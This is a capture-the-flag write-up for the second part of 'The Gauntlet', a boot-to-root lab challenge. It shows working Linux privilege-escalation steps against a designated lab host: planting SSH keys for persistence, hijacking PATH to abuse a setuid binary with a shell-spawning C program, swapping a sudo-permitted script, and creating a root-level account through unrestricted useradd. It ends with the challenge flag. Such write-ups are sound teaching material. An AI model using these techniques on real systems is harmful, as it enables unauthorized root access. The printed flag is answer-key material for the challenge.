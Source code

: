 
# The Gauntlet - Part 2

**Challenge Prompt:**

> So, you think you're a l33t h4xx0r? Alright, here's my little gauntlet to you then: Break in through the website and get a shell one way or another. Once that's done, escalate your privileges and own the box. You won't be needing any fancy kernel exploits or such, this one's all about bad practices and misconfigurations. Doesn't sound too hard, now does it? Good luck!

Flag binaries are located at /home/*****/user.flag and /root/root.flag  
the-gauntlet.hkn

## Prerequisites

This writeup will be missing the rabbit holes, and other wrong paths I took. I decided to do this to save time so I can write more writeups. I might decide to write a more complete one later, so this will be a writeup in the mind of someone not doing any mistakes. But I’m happy to talk on the discord to discuss the challenge.

This is part 2 for The Gauntlet challenge, I recommend reading part 1 to understand context.

## SSH

We have reverse shell access, but instead of relying on the reverse shell it’s better to SSH. We saw earlier in the nmap scan that there is port 22 open.

We can add our public key into the file .ssh/authorized_keys that we need to create.

If you do not know how to create SSH keys, I can recommend searching online as there are many guides.

After adding the keys, I can now ssh using the command

```
ssh user1@the-gauntlet.hkn
```

## Escalate privileges

To get an overview of what accounts there are, we can run

```
cat /etc/passwd
```

and we see there are 3 accounts, and first goal is getting access to user3.

```
user1:x:1001:1001:,,,:/home/user1:/bin/bash
user2:x:1002:1002:,,,:/home/user2:/bin/bash
user3:x:1003:1003:,,,:/home/user3:/bin/bash
```

### Getting access to user2

Running `ls -la` in home folder gives us the following output

```
total 1612
drwxr-x--- 1 user1 user1   4096 Mar 15 10:04 .
drwxr-xr-x 1 root  root    4096 Jan 25 20:57 ..
-rw-r--r-- 1 user1 user1    220 Jan 25 20:57 .bash_logout
-rw-r--r-- 1 user1 user1   3771 Jan 25 20:57 .bashrc
drwx------ 2 user1 user1   4096 Mar 15 10:04 .cache
-rw-r--r-- 1 user1 user1    807 Jan 25 20:57 .profile
drwxrwxr-x 2 user1 user1   4096 Mar 15 10:02 .ssh
-rwxrwxrwx 1 root  root    6032 Jan 25 20:56 app.py
-rw-r--r-- 1 user1 user1   8192 Mar 15 09:12 ctf.db
-rwsrwsr-x 1 user2 user2 776520 Jan 25 20:56 testBin
-rwxrwxrwx 1 user1 user1 821008 Jan 25 20:56 user.flag
```

We can see that `testBin` is owned by user2, and also has a setuid bit set.

> The Unix and Linux access rights flags setuid and setgid (short for set user identity and set group identity) allow users to run an executable with the file system permissions of the executable's owner or group respectively and to change behaviour in directories.

So this means the binary can run with permissions of user2 even if we are not user2.

When first running `testBin` we get the following output

```
Usage: ./testBin <file>
```

and when providing a file we get output that seems to be from `xxd`

```
00000000: 2320 5965 732c 2049 2067 6f74 2043 6861  # Yes, I got Cha
...
```

We can abuse the `PATH` variable to check for variables in current directory with following commands.

```
PATH=.:${PATH}
export PATH
```

We can confirm this works by copying the user.flag binary as `xxd`.

```
cp user.flag xxd
```

When running the command `./testBin app.py` it runs the `user.flag` binary instead.

We can create our own binary that runs bash with user2 permissions

```c
#include <stdlib.h>
#include <unistd.h>

int main(void) {
    char *const paramList[10] = {"/bin/bash", "-p", NULL};
    execve(paramList[0], paramList, NULL);
    return 0;
}
```

Compile with:

```
nano main.c
gcc main.c
cp a.out xxd
chmod +x xxd
```

Run `testBin` again and confirm new shell as user2:

```
uid=1001(user1) gid=1001(user1) euid=1002(user2) egid=1002(user2) groups=1002(user2),100(users),1001(user1)
```

### Getting access to user3

```
ls -la
```

Output:

```
drwxr-xr-x 1 user2 user2 4096 Mar 15 10:57 .
...
-rwxrwxr-x 1 root  root    58 Jan 25 20:56 runMe.sh
```

Running `runMe.sh`:

```
If only I could be something useful...
```

Check sudo privileges:

```
sudo -l
```

Output:

```
(user3) NOPASSWD: /home/user2/runMe.sh
```

We can delete and replace `runMe.sh`:

```
rm runMe.sh
echo "id" > runMe.sh
chmod +x runMe.sh
```

Run as user3:

```
sudo -u user3 /home/user2/runMe.sh
```

Output:

```
uid=1003(user3) gid=1003(user3) groups=1003(user3),100(users)
```

To persist access:

```bash
cd ../user3
mkdir .ssh
cd .ssh
echo "public_key_here" > authorized_keys
```

Then:

```
ssh user3@the-gauntlet.hkn
```

## Getting Root

Check sudo again:

```
sudo -l
```

Output:

```
(root) NOPASSWD: /usr/sbin/useradd *
```

Create a new user with root privileges:

```
sudo -u root useradd -o --uid 0 --gid 0 user4 --password $(echo password | openssl passwd -6 -stdin)
```

Switch user:

```
su user4
```

Password: `password`

Confirm:

```
uid=0(root) gid=0(root) groups=0(root)
```

Final flag:

```
./root/root.flag
```

Output:

```
DDC{1_h0p3_y0u_enj0y3d_my_f1r27_B2R}
```

